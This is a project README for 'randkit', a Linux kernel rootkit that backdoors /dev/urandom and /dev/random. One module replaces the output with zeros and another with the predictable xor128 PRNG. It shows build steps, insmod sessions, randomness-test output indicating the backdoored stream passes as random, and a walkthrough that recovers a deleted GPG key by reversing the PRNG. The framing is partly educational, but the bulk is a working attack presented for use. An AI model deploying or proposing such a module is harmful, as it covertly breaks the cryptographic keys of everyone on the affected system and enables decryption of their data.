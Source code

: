 # randkit
 Random number rootkit for the Linux kernel

The goals are to see:
* how a kernel module can access and modify the `/dev/urandom` and `/dev/random` structures.
* what happens when we replace a cryptographically secure PRNG with a predictable and reversible PRNG (here, this simple PRNG is `xor128`).

Contents
=

zero/
-

A simple module that replaces `/dev/(u)random` with `/dev/zero`

```bash
# output 16 random bytes from /dev/urandom
$ head -c16 /dev/urandom | hexdump
0000000 55a4 98ea 7179 4179 d634 fd92 89f2 898e
0000010
# load the zero rootkit
$ sudo insmod randkit_zero.ko
# output 16 zero bytes from /dev/urandom
$ head -c16 /dev/urandom | hexdump
0000000 0000 0000 0000 0000 0000 0000 0000 0000
0000010
# remove the rootkit
$ sudo rmmod randkit_zero
# the random numbers are random again!
$ head -c16 /dev/urandom | hexdump
0000000 194b 2c9f 5054 113b f6bc 5ab8 3ed9 dee2
0000010
```

xor128/
-

A module that replaces `/dev/(u)random` with a simple predictable and reversible PRNG.

This PRNG is called *xor128* and is part of the very fast Xorshift PRNGs: https://en.wikipedia.org/wiki/Xorshift

One of the *xor128* features is that it passes the *diehard* random number tests: https://en.wikipedia.org/wiki/Diehard_tests (which is a rather complete randomness test suite).

Let's do a quick randomness test with another randomness test suite. We will use the `ent` tool available at https://www.fourmilab.ch/random/

For the real `/dev/urandom` device:

```bash
# generate 5 MB of random data from the real /dev/urandom
$ dd if=/dev/urandom of=random5MB.urandom bs=1M count=5
5+0 records in
5+0 records out
5242880 bytes (5.2 MB) copied, 0.406672 s, 12.9 MB/s
# test the randomness of the data using the ent tool
$ ent random5MB.urandom
Entropy = 7.999968 bits per byte.

Optimum compression would reduce the size
of this 5242880 byte file by 0 percent.

Chi square distribution for 5242880 samples is 233.65, and randomly
would exceed this value 75.00 percent of the times.

Arithmetic mean value of data bytes is 127.4776 (127.5 = random).
Monte Carlo value for Pi is 3.143720682 (error 0.07 percent).
Serial correlation coefficient is -0.000062 (totally uncorrelated = 0.0).
```

For the backdoored `/dev/urandom` device:

```bash
# load the rootkit
$ sudo insmod randkit_xor128.ko
# generate 5 MB of random data from the backdoored /dev/urandom
$ dd if=/dev/urandom of=random5MB.xor128 bs=1M count=5
5+0 records in
5+0 records out
5242880 bytes (5.2 MB) copied, 0.0266334 s, 197 MB/s
# test the randomness of the data using the ent tool
$ ent random5MB.xor128 
Entropy = 7.999964 bits per byte.

Optimum compression would reduce the size
of this 5242880 byte file by 0 percent.

Chi square distribution for 5242880 samples is 261.73, and randomly
would exceed this value 50.00 percent of the times.

Arithmetic mean value of data bytes is 127.4943 (127.5 = random).
Monte Carlo value for Pi is 3.140932900 (error 0.02 percent).
Serial correlation coefficient is 0.000238 (totally uncorrelated = 0.0).
```

Both the files appear to be random. Therefore it is difficult to distinguish a predictable PRNG like *xor128* with a **really** random CSPRNG like `/dev/urandom`.

fops/
-

A module that checks that the `struct file_operations` pointer from `/dev/urandom` is accessible using different techniques

tests/
-

Programs to test that the modules work correctly (e.g. read random numbers from the file descriptor, syscall, ...).

examples/
-

Shows how to retrieve past random numbers generated by the `randkit_xor128` module.

Build
=

Go the toplevel directory and type `make`. This will build all the three modules.

Or you go inside the `fops/`, `zero/` or `xor128/` directories and type `make`.

To build successfully, you need the linux headers for your kernel.

Test
=

Simple tests
-

To check that everything works, go to the toplevel directory and type `make test`.

Full example
-

Go to the `examples/` directory and type `make`.

This will encrypt data using a key generated by the backdoored PRNG. Then it will delete the key and try to decrypt the data by retrieving the PRNG previous values.

```bash
$ cd examples
$ make
./example.sh
[*] reloading the module
[*] cleaning files from previous run
[*] generating 5KB of random numbers
1+0 records in
1+0 records out
5120 bytes (5.1 kB) copied, 6.9455e-05 s, 73.7 MB/s
[*] generating the GPG symmetric key
[*] encrypting data
[*] deleting the key
[*] generating 5KB of random numbers again
1+0 records in
1+0 records out
5120 bytes (5.1 kB) copied, 6.6115e-05 s, 77.4 MB/s
[*] decrypt the data by reversing the PRNG to retrieve the key
[*] this should take approx. 1280 iterations
[*] iteration: 1
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
[*] iteration: 2
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
[*] iteration: 3
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
...
[*] iteration: 1287
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
[*] iteration: 1288
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
[*] iteration: 1289
[*] key found!
[*] comparing the original and decrypted files:
[*] Success. Files are equal!
```